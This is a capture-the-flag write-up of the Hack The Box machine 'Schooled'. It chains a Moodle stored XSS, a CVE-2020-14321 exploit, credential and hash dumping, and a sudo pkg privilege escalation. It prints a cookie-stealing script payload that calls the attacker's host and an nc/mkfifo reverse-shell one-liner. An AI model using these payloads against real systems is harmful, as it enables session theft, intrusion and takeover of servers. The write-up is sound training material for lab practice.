 ```yaml
---
title: "📦 HTB - Schooled"
date: 2021-08-04 13:00:00
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


> Cool box, not too CTF-like and real-life applicable, my first FreeBSD :smile: But root part was too quick.

## TL;DR

XSS to steal Moodle creds of teacher, privesc as manager and then RCE. Get MySQL in config file, dump users and get password hash. Break the hash with john to ssh as user. Common `pkg install` exploit for root.

## Footholds

```
# Nmap 7.91 scan initiated Mon Aug  2 22:40:05 2021 as: nmap -A -p- -T4 -o nmap.out schooled.htb
Nmap scan report for schooled.htb (10.10.10.234)
Host is up (0.082s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
|   256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_  256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
...
```

The website we have seems to be static, no JavaScript to exploit, not so much to do :thinking:

After a while I read that they are talking about a Moodle on this site. So I decided to find it, `moodle.schooled.htb`!

## Entrypoint

### XSS you say?

Found the version by visiting some forbidden page for my user: Moodle 3.9.

![userpix](userpix.png)

We got those email domains: `student.schooled.htb` & `staff.schooled.htb`.

Looking for exploits for this version, I found an XSS payload for `MoodleNet` in user profile. By chance, a teacher (maths class) is looking for enroled students' MoodleNet profiles.

MoodleNet: `<script>new Image().src="http://your-ip:port/" + document.cookie</script>`
`python3 -m http.server port`

See [here for more details about the XSS](https://github.com/HoangKien1020/CVE-2020-25627).

By starting an HTTP server on our machine, we get the teacher's session cookie.

![Teacher session cookie](teacher_session.png)

![Logged as teacher](teacher_log.png)

### Get manager access

After some research on this Moodle version, I found a good exploit to use: [https://github.com/lanzt/CVE-2020-14321](https://github.com/lanzt/CVE-2020-14321).

No need to fix this exploit, even if this is not the original exploit script for this CVE, I used it because it was the first to show in the search engine.

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "whoami" --cookie TEACHER_COOKIE
[...]
www
```

As this box was FreeBSD, `nc` does not work the same, we need a bigger payload for a reverse shell:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`

So my command to get a reverse shell:

```sh
python3 cve.py http://moodle.schooled.htb/moodle -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f" --cookie TEACHER_COOKIE
```

On another terminal:

```sh
nc -nlvp PORT
$ whoami
www
$
```

We have now a reverse shell! Let's get user.

## User

List user directories:

```
$ ls /home
/home/steve
/home/jamie
```

By looking in the moodle's directory we get this config file:

```php
<?php  // Moodle configuration file

unset($CFG);
global $CFG;
$CFG = new stdClass();

$CFG->dbtype    = 'mysqli';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'moodle';
$CFG->dbpass    = 'PlaybookMaster2020';
$CFG->prefix    = 'mdl_';
$CFG->dboptions = array (
  'dbpersist' => 0,
  'dbport' => 3306,
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
```

We have now MySQL creds, let's use them:

```sh
/usr/local/bin/mysql -umoodle -p
Password:


```

Weird... We should get a shell here.

In fact the exploit we use is not meant to nest child shells. For example we can't just `bash` to get a bash shell, we must stay in our shell.

Fortunaletly we can execute commands using MySQL's binary:

```sh
/usr/local/bin/mysql -umoodle -pPlaybookMaster2020 -D moodle -e "show tables;"
```

![MySQL tables](mysql_exec.png)

We dump the users:

```sql
select * from mdl_user;
```

The interesting line here is:

```
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW          Jamie   Borham  jamie@staff.schooled.htb
```

We need to crack this hash. Let's use john:

![Jamie password](jamie.png)

We can SSH with this.

## Root

Classic:

```
sudo -l

(NOPASSWD) /usr/sbin/pkg update
(NOPASSWD) /usr/sbin/pkg install *
```

Using this [https://gtfobins.github.io/gtfobins/pkg/](https://gtfobins.github.io/gtfobins/pkg/) we build our package to RCE as root:

```sh
# local
echo 'cat /root/root.txt' > a.sh
fpm -n x -s dir -t freebsd -a all --before-install a.sh .
scp x-1.0.txz jamie@schooled.htb:/tmp
```

```sh
# ssh
sudo /usr/sbin/pkg install -y --no-repo-update /tmp/x-1.0.txz
...
/root/root.txt hash here
```

![Rooted.png](rooted.png)
